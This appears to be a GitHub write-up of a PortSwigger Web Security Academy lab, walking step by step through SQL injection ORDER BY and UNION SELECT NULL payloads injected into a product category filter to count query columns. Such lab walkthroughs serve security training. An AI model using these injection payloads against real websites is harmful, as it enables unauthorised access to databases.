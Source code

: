 # SQL injection UNION attack, determining the number of columns returned by the query

## This lab contains a SQL injection vulnerability in the product category filter. The results from the query are returned in the application's response, so you can use a UNION attack to retrieve data from other tables. The first step of such an attack is to determine the number of columns that are being returned by the query. You will then use this technique in subsequent labs to construct the full attack.

## To solve the lab, determine the number of columns returned by the query by performing a [SQL injection UNION](https://portswigger.net/web-security/sql-injection/union-attacks) attack that returns an additional row containing null values.

___

step 1

send `/filter?category=Lifestyle` to repeater
send request you will get 4 different item

![screnshot](lab3_lifstyle_repeater.jpg)



**Note**: to determine SQL injection UNION attack injecting a series of `ORDER BY` clauses and incrementing the specified column index until an error occurs

URL encoded (Ctrl+u) => select the sentences to make them highlighted press (Ctrl+u) 
>' ORDER BY 1--  => URL encoded  ('+ORDER+BY+1)
>' ORDER BY 2-- => URL encoded ('+ORDER+BY+2)
>' ORDER BY 3-- => URL encoded ('+ORDER+BY+2)
> etc.

``
step 2

add `'+ORDER+BY+1--` at the end
`/filter?category=Lifestyle'+ORDER+BY+1--`

![screnshot](lab3_order_by_1.jpg)

step 3

`'+ORDER+BY+2--`
`/filter?category=Lifestyle'+ORDER+BY+2--`

![screnshot](lab3_order_by_2.jpg)

step 4

`'+ORDER+BY+3-- `
`/filter?category=Lifestyle'+ORDER+BY+3--`

![screnshot](lab3_order_by_3.jpg)

step 5

`'+ORDER+BY+4--`
`/filter?category=Lifestyle'+ORDER+BY+4--`
The ORDER BY position number 4 is out of range of the number of items in the select list. so you get internal error

![screnshot](lab3_order_by_4.jpg)



to solve the lab
*determine the number of columns returned by the query by performing a SQL injection UNION attack that returns an additional row containing `null` values*.

>' UNION SELECT NULL--  => ('+UNION+SELECT+NULL--)
>' UNION SELECT NULL,NULL-- =>('+UNION+SELECT+NULL,NULL--)
>' UNION SELECT NULL,NULL,NULL-- =>('+UNION+SELECT+NULL,NULL,NULL--)
>etc.

**Note: If the number of nulls does not match the number of columns, the database returns an error**

step 6

add `'+UNION+SELECT+NULL--` at the end
`/filter?category=Lifestyle'+UNION+SELECT+NULL--`

![screnshot](lab3_lifestyle_repeater_null.jpg)

step 7

`/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL--`

![screnshot](lab3_lifestyle_repeater_null_null.jpg)

step 8

`/filter?category=Lifestyle'+UNION+SELECT+NULL,NULL,NULL--`

![screnshot](lab3_lifestyle_repeater_null_null_null.jpg)


![screnshot](portswigger_wsa/P01_server_side_topic/P01_sql_injection/images/lab3_solved_lab.jpg)